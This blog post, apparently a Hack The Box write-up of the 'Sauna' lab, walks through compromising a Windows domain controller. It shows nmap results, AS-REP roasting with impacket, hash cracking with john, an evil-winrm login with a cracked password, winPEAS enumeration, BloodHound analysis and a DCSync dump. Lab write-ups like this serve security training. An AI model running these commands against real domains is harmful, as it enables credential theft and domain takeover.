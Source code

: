 ```yaml
---
layout: post
title: Hack The Box - Sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
  
<p align="center"> Sauna is a easy machine created by <a egotisticalSW href="https://www.hackthebox.eu/home/users/profile/94858"> egotisticalSW</a></p>

# Enum  
  
  
### <center>nmap</center>  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
<p align="center">  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was <a href=https://www.tarlogic.com/en/blog/how-to-attack-kerberos/>kerberoasting</a>  
I used <a href="(https://github.com/ifconfig-me/impacket">impacket</a>'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
</p>  
  
# ![index](/assets/img/sauna/sauna1.png)  
  
<center>Searching something usefull I found usernames on page "About Us"</center>  
# ![users](/assets/img/sauna/sauna2.png)  
  
<p align="center">  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py  
  
  
### Exploit
./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash  
</p>  
  
# ![fsmithHash](/assets/img/sauna/sauna3.png)  
  
<p align="center">
With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  
  
</p>
# ![passwd](/assets/img/sauna/sauna4.png)
  
<p align="center">The part I like most in attacking windows, is the <a href="https://github.com/Hackplayers/evil-winrm">evil</a> part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith</p>  
  
# ![evilLogin](/assets/img/sauna/sauna5.png)  
  
### <center>Privilege Escalation</center>  
  
<p align="center">To privelige escalation in windows the first thing I use is <a href="https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat">winPEAS.bat</a>  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user</p>  
# ![svc](/assets/img/sauna/sauna6.png)  
  
<p align="center">Logged in as svc\_loanmgr and invoked the <a href="https://github.com/fox-it/BloodHound.py">hound</a></p>  
  
# ![bloodHound](/assets/img/sauna/sauna7.png)  
  
<center>ziped the json files and sent it to bloodhound</center>  
  
<center>The hound says: svc\_loanmgr is connected to egotistical-bank with getChangesAll and you should try a DCSYnc attack..</center>  
  
# ![HoundHelp](/assets/img/sauna/sauna8.png)  
  
<center>Let's get back to impacket</center>  
  
# ![hashdump](/assets/img/sauna/sauna9.png)  
  
<center>And evil again</center>  
  
# ![evilAdmin](/assets/img/sauna/sauna10.png)  
  
